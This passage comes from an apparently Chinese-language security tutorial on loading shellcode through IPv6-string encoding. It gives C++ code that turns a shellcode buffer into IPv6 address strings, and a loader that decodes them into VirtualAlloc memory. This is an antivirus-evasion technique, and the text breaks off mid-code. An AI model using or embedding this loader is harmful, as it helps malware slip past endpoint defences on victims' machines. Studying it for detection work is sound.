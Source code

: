 IPV6内存加载
--------

IPv6是英文“Internet Protocol Version 6”（互联网协议第6版）的缩写，是互联网工程任务组（IETF）设计的用于替代IPv4的下一代IP协议，其地址数量号称可以为全世界的每一粒沙子编上一个地址 \[1\] 。 这里是用的冒分十六进制 格式为X:X:X:X:X:X:X:X，其中每个X表示地址中的16b，以十六进制表示，例如： ABCD:EF01:2345:6789:ABCD:EF01:2345:6789

和上面IPV4差不多只是函数变换了

```php
#include <windows.h>
#include <ip2string.h>
#include <iostream>

#pragma comment(lib, "ntdll.lib")
using namespace std;

int main(int argc, char* argv[]) {
    char buf[] = "";

    char* p = buf;
    char ip_str[sizeof(buf)];
    cout << "const char* buf[] = {";
    for (int i = 0; i <= (sizeof(buf) - 1) / 16; i++) {
        RtlIpv6AddressToStringA((const in6_addr*)&(*p), ip_str);
        p += 16;
        if (i == (sizeof(buf) - 1) / 16) {
            cout << "\"" << ip_str << "\"";
        }
        else {
            cout << "\"" << ip_str << "\",";
        }
    }
    cout << "};";

    return 0;
}
```

![4.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-3e467ba91fbe6ae1dd21013cd44f311ae853d16f.png)

我们可以使用如下进行加载执行

```php
#include <windows.h>
#include <ip2string.h>
#include <iostream>

#pragma comment(lib, "ntdll.lib")
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
using namespace std;

int main() {
    const char* buf[] = { 0 };
    PCSTR lTerminator = NULL;
    DWORD pflOldProtect = 0;
    LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(buf)*16, MEM_COMMIT, PAGE_READWRITE);

    DWORD_PTR ptr = (DWORD_PTR)alloc_mem;
    int init = sizeof(buf) / sizeof(buf[0]);
    for (int i = 0; i < init; i++) {
        RPC_STATUS STATUS = RtlIpv6StringToAddressA((PCSTR)buf[i], &lTerminator, (in6_addr*)ptr);
        if (!NT_SUCCESS(STATUS)) {
            printf("[!] RtlIpv6StringToAddressA failed in %s result %x (%u)", buf[i], STATUS, GetLastError());
            return FALSE;
```